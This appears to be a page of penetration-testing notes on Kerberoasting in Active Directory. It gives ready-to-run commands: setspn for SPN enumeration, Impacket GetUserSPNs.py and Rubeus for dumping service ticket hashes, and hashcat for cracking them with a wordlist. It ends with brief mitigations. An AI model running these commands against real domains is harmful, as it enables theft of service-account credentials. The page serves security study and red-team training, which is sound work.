 
### Kerberoasting

### Principle

SPN (Service Principal Name) is the mapping between a service and the account or the name of the machine with which the service is associated.

![exploit_kerberoasting_principle.png](../attachments/exploit_kerberoasting_principle.png)

### Requirements

* Have valid user credentials (not necessarily admin).

### Hands On

#### With Impacket (remote)

 > 
 > **<font color=red>setspn -T medin -Q ​ */*</font>**</br>
 > Enumerate SPN.


 > 
 > **<font color=red>python3 /opt/impacket/examples/GetUserSPNs.py</font> \[TARGET_DOMAIN\]<font color=red>/</font>\[VALID_USER\]<font color=red>:</font>\[VALID_PASSWORD\] <font color=red>-dc-ip</font> \[DOMAIN_CONTROLLER_IP\] <font color=red>-request</font>**</br>
 > Dump Kerberos hash of kerberoastable users.


 > 
 > **<font color=red>hashcat -a 0 -m 13100</font> myHash.txt <font color=lightblue>/usr/share/wordlists/rockyou.txt</font>**</br>
 > Crack Kerberos KRB_TGS_REP hash.

#### With RUBEUS (on target machine)


 > 
 > **<font color=red>Rubeus.exe kerberoast</font>**</br>
 > Dump Kerberos hashes of kerberoastable users (same as GetUserSPNs.py but on the target machine).


 > 
 > **<font color=red>hashcat -a 0 -m 13100</font> myHash.txt <font color=lightblue>/usr/share/wordlists/rockyou.txt</font>**</br>
 > Crack Kerberos KRB_TGS_REP hash.

### Mitigation

* Have a very strong password for service accounts.
* Don’t make services accounts domain administrators.

---

### AS-REProasting
